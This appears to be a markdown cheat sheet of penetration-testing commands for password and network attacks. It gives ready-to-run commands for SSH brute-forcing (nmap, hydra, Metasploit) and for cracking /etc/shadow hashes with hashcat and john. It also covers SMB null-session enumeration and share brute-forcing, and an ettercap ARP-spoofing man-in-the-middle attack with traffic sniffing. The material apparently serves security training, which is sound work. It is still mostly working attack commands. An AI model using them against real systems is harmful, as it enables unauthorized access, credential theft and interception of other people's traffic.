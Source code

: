 #### Authentication Cracking
|Types|Bruteforce Attack | Dictionary Attack |
|---|---|---|

> Factors Affecting Online Password Cracking: Latency, Delay, Processing time,etc....

#### SSH Bruteforce With Nmap

```
nmap 192.168.143.67 -p 22 --script ssh-brute --script-args userdb=username.txt,passdb=password.txt

```

#### SSH Bruteforce With Hydra
```
hydra -l student -P /usr/share/wordlists/rockyou.txt ssh://192.194.185.3 -f

```

#### SSH Bruteforce With Metasploit
```
scanner/ssh/ssh_login module
```

#### Crack /etc/hashes With hahcat and John
```
/etc/login.defs >> Check Hashing Algorithm

hashcat -m 1800 admin.hash /root/Desktop/wordlists/1000000-password-seclists.txt --force

john /etc/shadow --wordlist=/root/Desktop/wordlists/1000000-password-seclists.txt

```

#### nULl Session Attack

> Allows user to connect to network without valid password in windows server.

```
smbclient //10.10.10.10/C$ -N

enum4linux -U 192.168.23.1 >> Enumerate Users

enum4linux -n 192.168.23.1 >> NBT stat

enum4linux -P 192.168.23.1 >> GIVES PASSWORD POLICY ON REMOTE MACHINE

enum4linux -S 192.168.23.1 >> LIST SHARES

enum4linux -s /usr/share/enum4linux/share-list.txt 192.168.23.1  >> Bruteforce Shares

enum4linux -A 192.168.23.1 >> FULL ENUM

sambrdump.py 192.168.23.1 

nmap -script=smb-enum-shares,smb-enum-users,smb-brute 192.168.23.1


```

> Note: Sometime we maynot see shares using enum4linux we can bruteforce the  users and try connecting to respective shares using -N flag.
#### Accessing Public Shares with smbclient

```
smbclient //192.123.28.3/demo
```

#### Check perm across Shares

```
smbmap -H host
```

#### Mitm Attack Using Ettercap
* Enumerate live hosts using nmap.

```
nmap -sn 192.168.3.0/24
```

#### Enable IP Forwarding in Linux

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

```
sudo ettercap -T -S -i eth0 -M arp:remote /10.0.0.1// /10.0.0.129//

-T  - text only
-S  - No ssl
-M  - Method
10.10.0.1  - Router
10.0.0.129 - Victim
```
* Start Wireshark with root perm
```
ip.addr == 10.0.0.129 && http

```

